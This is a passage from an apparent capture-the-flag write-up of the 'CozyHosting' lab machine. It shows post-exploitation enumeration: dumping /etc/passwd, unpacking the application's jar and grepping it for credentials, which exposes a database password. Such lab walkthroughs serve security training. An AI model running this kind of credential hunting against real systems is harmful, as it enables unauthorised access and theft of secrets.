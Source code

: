 ```
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
We can see that the `app` user seems to be have a home but it seems to not exist:
```
ls /home/app
ls: cannot access '/home/app': No such file or directory
```

But there is the jar file of the application available in `/app`. Let's unzip it and look for intersting stuff:
```
app@cozyhosting:/tmp/jar$ unzip /app/cloudhosting-0.0.1.jar
unzip /app/cloudhosting-0.0.1.jar
Archive:  /app/cloudhosting-0.0.1.jar
[...]
app@cozyhosting:/tmp/jar$ grep -ri password
grep -ri password
grep: BOOT-INF/lib/spring-security-config-6.0.1.jar: binary file matches
grep: BOOT-INF/lib/spring-security-web-6.0.1.jar: binary file matches
grep: BOOT-INF/lib/spring-security-crypto-6.0.1.jar: binary file matches
grep: BOOT-INF/lib/thymeleaf-spring6-3.1.1.RELEASE.jar: binary file matches
grep: BOOT-INF/lib/tomcat-embed-core-10.1.5.jar: binary file matches
grep: BOOT-INF/lib/postgresql-42.5.1.jar: binary file matches
grep: BOOT-INF/lib/spring-security-core-6.0.1.jar: binary file matches
grep: BOOT-INF/lib/spring-webmvc-6.0.4.jar: binary file matches
grep: BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.ttf: binary file matches
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-fill:before { content: "\eecf"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.less:.ri-lock-password-line:before { content: "\eed0"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-fill"
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.svg:    <glyph glyph-name="lock-password-line"
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-fill:before { content: "\eecf"; }
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.css:.ri-lock-password-line:before { content: "\eed0"; }
grep: BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.eot: binary file matches
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-fill">
BOOT-INF/classes/static/assets/vendor/remixicon/remixicon.symbol.svg:</symbol><symbol viewBox="0 0 24 24" id="ri-lock-password-line">
BOOT-INF/classes/templates/login.html:                                        <label for="yourPassword" class="form-label">Password</label>
BOOT-INF/classes/templates/login.html:                                        <input type="password" name="password" class="form-control" id="yourPassword"
BOOT-INF/classes/templates/login.html:                                        <div class="invalid-feedback">Please enter your password!</div>
BOOT-INF/classes/templates/login.html:                                    <p th:if="${param.error}" class="text-center small">Invalid username or password</p>
BOOT-INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR
grep: BOOT-INF/classes/htb/cloudhosting/database/CozyUserDetailsService.class: binary file matches
```